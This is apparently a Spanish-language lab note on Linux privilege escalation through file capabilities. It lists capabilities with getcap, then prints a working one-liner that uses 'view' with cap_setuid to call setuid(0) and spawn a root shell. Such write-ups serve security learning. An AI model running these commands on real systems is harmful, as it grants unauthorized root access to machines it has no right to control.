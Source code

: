 # Capabilities

Otro método que los administradores de sistemas pueden utilizar para aumentar el nivel de privilegio de un proceso o binario son las "Capacidades". Las capacidades ayudan a administrar los privilegios a un nivel más granular. Por ejemplo, si el analista de SOC necesita utilizar una herramienta que necesita iniciar conexiones de socket, un usuario normal no podría hacerlo. Si el administrador del sistema no quiere otorgarle a este usuario mayores privilegios, puede cambiar las capacidades del binario. Como resultado, el binario realizaría su tarea sin necesitar un usuario con mayores privilegios.\
La página de manual de capacidades proporciona información detallada sobre su uso y opciones.

Podemos usar la `getcap` herramienta para enumerar las capacidades habilitadas.

```shell
karen@ip-10-10-201-196:~$ getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/20231008160710.png" alt=""><figcaption></figcaption></figure>

```shell
cp $(which view) .
sudo setcap cap_setuid+ep view

./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

<figure><img src="../../.gitbook/assets/20231008170251.png" alt=""><figcaption></figcaption></figure>

Una vez ejecutado, podemos ser el usuario root

<figure><img src="../../.gitbook/assets/20231008170352.png" alt=""><figcaption></figcaption></figure>
